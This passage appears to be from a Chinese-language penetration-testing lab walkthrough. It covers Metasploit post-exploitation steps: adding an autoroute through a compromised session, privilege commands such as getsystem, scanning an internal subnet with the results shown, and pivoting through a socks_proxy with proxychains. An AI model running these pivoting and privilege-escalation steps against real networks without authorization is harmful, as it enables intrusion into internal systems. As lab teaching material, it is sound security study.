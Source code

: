 ```bash
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 2  # 指定要使用的会话 ID
msf6 post(multi/manage/autoroute) > set SUBNET 192.170.84.0  # 设置目标子网
msf6 post(multi/manage/autoroute) > set NETMASK 255.255.255.0  # 可选，默认 255.255.255.0
msf6 post(multi/manage/autoroute) > run  # 执行添加路由
相关命令：
run getuid	获取当前用户权限
run getsystem	尝试提升为系统权限
run enum_processes	枚举运行的进程
run enum_network	枚举网络信息
```

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746807858169-f18ad24e-329a-4942-9858-477a9e4c84e6.png)

    18. 接着使用端口扫描该网段下的存活主机，以及开放的端口，请求会自动经过上面的虚拟路由，发现内网的三台存活主机。

 （ -T4  可以优化扫描速度，线程加到 10 ，因为一般要端口全部扫描，比较慢。）

![](https://cdn.nlark.com/yuque/0/2025/png/36224524/1746810530133-9e198dae-b915-4c15-afa1-705febeca518.png)

之后扫描到信息存在工作区数据库中：

```bash
msf6 auxiliary(scanner/portscan/tcp) > services
host            port   proto  name  state   info
----            ----   -----  ----  -----   ----
169.254.23.229  22     tcp    ssh   open    OpenSSH 9.9p2 Debian 2 protocol 2.0
169.254.23.229  80     tcp    http  open    nginx 1.10.3
169.254.23.229  15923  tcp    http  open    Jetty 9.4.31.v20200723
169.254.23.229  50654  tcp          closed
192.170.84.2    7001   tcp          open
192.170.84.3    7001   tcp          open
192.170.84.4    7001   tcp          open
msf6 auxiliary(scanner/portscan/tcp) > hosts
address         mac                name          os_name  os_flavor  os_sp  purpose  info  comments
-------         ---                ----          -------  ---------  -----  -------  ----  --------
169.254.23.229  08:00:27:7f:1c:51  192.170.84.5  Linux               4.X    server
192.170.84.2                                     Unknown                    device
192.170.84.3                                     Unknown                    device
192.170.84.4                                     Unknown                    device
::1                                                                         client
```

    19. search socks_proxy （`<font style="color:rgba(0, 0, 0, 0.85);">socks_proxy</font>`<font style="color:rgba(0, 0, 0, 0.85);">模块主要用于在网络应用中，通过 SOCKS 代理服务器来建立连接，实现网络访问。它允许应用程序将网络请求通过代理服务器转发，隐藏真实的客户端 IP 地址，突破网络限制等。）</font>

```bash
Nmap 生成扫描请求（目标：192.170.84.100:80）
   ↓
请求被 proxychains 拦截，转发到攻击机的 SOCKS 代理（127.0.0.1:1080）
   ↓
Metasploit 的 socks_proxy 模块接收请求
   ↓
socks_proxy 通过已建立的会话（ID=2）将请求发送到跳板主机（192.170.84.5）
   ↓
跳板主机作为代理，向内网目标（192.170.84.100:80）发送请求
   ↓
目标主机响应请求，将数据返回给跳板主机
   ↓
跳板主机通过会话通道将响应传回攻击机
   ↓
socks_proxy 将响应转发给 Nmap
   ↓
Nmap 解析响应并显示结果
```
